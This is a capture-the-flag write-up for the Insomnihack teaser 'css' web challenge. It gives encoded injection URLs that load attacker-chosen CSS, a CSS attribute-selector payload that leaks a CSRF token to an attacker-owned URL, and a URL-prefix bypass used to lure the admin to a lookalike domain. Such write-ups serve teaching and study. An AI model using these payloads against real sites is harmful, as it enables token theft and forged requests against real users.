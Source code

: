 - CSP allows to load styles from the same domain
- We can echo any input we want on the page
- We can inject html tags
- CSP allows to load images from external server

This leads us to the first piece of the puzzle - we can inject html tag `<link rel="stylesheet" href="something"/>` tag in order to load css of our choosing.
The `something` has to be a link to the page which echos our payload, for example: 

`http:\\css.teaser.insomnihack.ch\index.php?search=%0a%7B%7D%20body%20%7B%20background-color%3A%20lightblue%3B%20%7D%0a&page=search&.css` 

which prints out `Search results for : {} body { background-color: lightblue; }`

Chaining the two in the form of: `http://css.teaser.insomnihack.ch/index.php?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22http%3A%5C%5Ccss.teaser.insomnihack.ch%5Cindex.php%3Fsearch%3D%250a%257B%257D%2520body%2520%257B%2520background-color%253A%2520lightblue%253B%2520%257D%250a%26page%3Dsearch%26.css`

Shows us a nice blue page, as expected.

We can now use CSS selectors to exflitrate data from the page! 
By creating style with entries in the form:

`input[value^="a" i]{background: url('http://url.we.own/a')`

We can listen for hits on the provided url, and this way we can check if the first letter of `value` attribute of `input` tags on the page is `a`.

There are some issues here:

- The only thing we can really `steal` is CSRF token.
- We can steal data only letter-by-letter. We need to steal first letter in order to prepare new CSS selectors for the second letter.
- It seems the token changes every time we send link to the admin, so we would need to extract the whole token in one go.
- Even if we get the CSRF token, we still can't run any JS, so we can't send any POST request as admin.

Initially we thought that only links to the page `http://css.teaser.insomnihack.ch` can be sent to admin, but it turned out that it was not the case.
In reality there was only a check for the `prefix` of URL, not a real domain check.
This means we could register `http://css.teaser.insomnihack.ch.our.cool.domain` and admin would visit this link just fine.

This solves the issue with sending a POST request, since we can now lure admin into our own page and send request from there.
It also solves the issue of stealing whole CSRF token, because we can now dynamically generate iframes with CSS selectors for consecutive letters.
We create iframe with selectors for first letter, grab the matching letter from our `backend` (listening for hits from CSS), and create another iframe with selectors for two letters using known prefix etc.
Once we have full token we can finally send a POST a admin.

- We were using domain `http://css.teaser.insomnihack.ch.nazywam.p4.team`.
- Endpoint `http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token` was simply blocking until a hit from CSS was done, and then it would return the matching letter.
